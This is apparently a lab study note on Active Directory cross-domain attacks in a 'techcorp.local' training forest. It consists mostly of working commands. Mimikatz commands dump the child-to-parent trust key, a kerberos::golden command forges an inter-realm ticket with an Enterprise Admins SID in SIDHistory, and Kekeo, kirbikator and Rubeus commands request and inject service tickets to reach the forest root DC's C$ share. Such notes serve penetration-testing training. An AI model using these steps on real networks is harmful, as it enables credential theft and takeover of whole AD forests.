 # Cross Domain Attacks - Forest Root - Trust Key & krbtgt

- [Cross Domain Attacks - Forest Root - Trust Key & krbtgt](#cross-domain-attacks---forest-root---trust-key--krbtgt)
  - [Cross Domain Attacks - Forest Root](#cross-domain-attacks---forest-root)
  - [Trust Key](#trust-key)

---

## Cross Domain Attacks - Forest Root

Domains in same forest have an **implicit two-way trust with other domains**. There is a **trust key** between the parent and child domains.

**SIDHistory** can be abused in two ways of escalating privileges within a forest:

- `krbtgt` hash of the child
- Trust tickets

All the Privilege Escalation to `techcorp.local` we have seen till now needs some misconfiguration. These ones are 'working as intended'.

<br/>

**Child to Forest Root Trust Flow**

![picture 21](images/8e051d7db9622cdd28b0a3b8c0766b6a17867390838869fae394d08d5ff6dbaf.png)  

**Child to Forest Root Trust Flow Abuse**

![picture 22](images/e6557382e4163ff8f26ad9fb0ee9d8be4be22ae956d02a06d24295477a4f5dbb.png)  

<br/>

## Trust Key

So, what is required to forge trust tickets is, obviously, the trust key. Look for **trust key** from child to parent.

```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName us-dc
```

or

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\techcorp$"'
```

or

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

We can also use any of the earlier discussed tools to extract trust keys.

<br/>

Forge an inter-realm TGT:

```
Invoke-Mimikatz -Command '"kerberos::golden /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /rc4:b59ef5860ce0aa12429f4f61c8e51979 /user:Administrator /service:krbtgt /target:techcorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi"'
```

| Mimikatz Parameters | |
|----|----|
|`kerberos::golden` | The mimikatz module |
|`/domain:us.techcorp.local` | FQDN of the current domain |
|`/sid:S-1-5-21-210670787-2521448726-163245708` | SID of the current domain (Can be obtained using `whoami /all`) |
|`/sids:S-1-5-21-2781415573-3701854478-2406986946-519` | SID of the Enterprise Domain Admins group (Enterprise Admins Group is always `519`; Domain SID can be obtained using `Get-DomainSID -Domain techcorp.local` of PowerView) |
|`/rc4:b59ef5860ce0aa12429f4f61c8e51979` | RC4 of the trust key |
|`/user:Administrator` | User to impersonate |
|`/service:krbtgt` | Target service in the parent domain |
|`/target:techcorp.local` | FQDN of the parent domain |
|`/ticket:C:\AD\Tools\kekeo\trust_tkt.kirbi` | Path where ticket to be saved |

<br/>

Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket with Kekeo (https://github.com/gentilkiwi/kekeo/):

```
tgs::ask /tgt:C:\AD\Tools\trust_tkt.kirbi /service:CIFS/techcorp-dc.techcorp.local
```

or using older version of `Kekeo`:

```
.\asktgs.exe C:\AD\Tools\trust_tkt.kirbi CIFS/techcorp-dc.techcorp.local
```

Tickets for other services (like HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting and WinRM) can be created as well.

<br/>

Use the TGS to access the targeted service (may need to use it twice).

```
misc::convert lsa TGS_Administrator@us.techcorp.local_krbtgt~TECHCORP.LOCA L@US.TECHCORP.LOCAL.kirbi
```

or

```
.\kirbikator.exe lsa .\CIFS.techcorpdc.techcorp.local.kirbi
```

Then try to list the forest DC:

```
ls \\techcorp-dc.techcorp.local\c$
```

<br/>

Alternatively, we can use `Rubeus.exe`:

```
.\Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:cifs/techcorp-dc.techcorp.local /dc:techcorpdc.techcorp.local /ptt
```

```
ls \\techcorp-dc.techcorp.local\c$
```

---

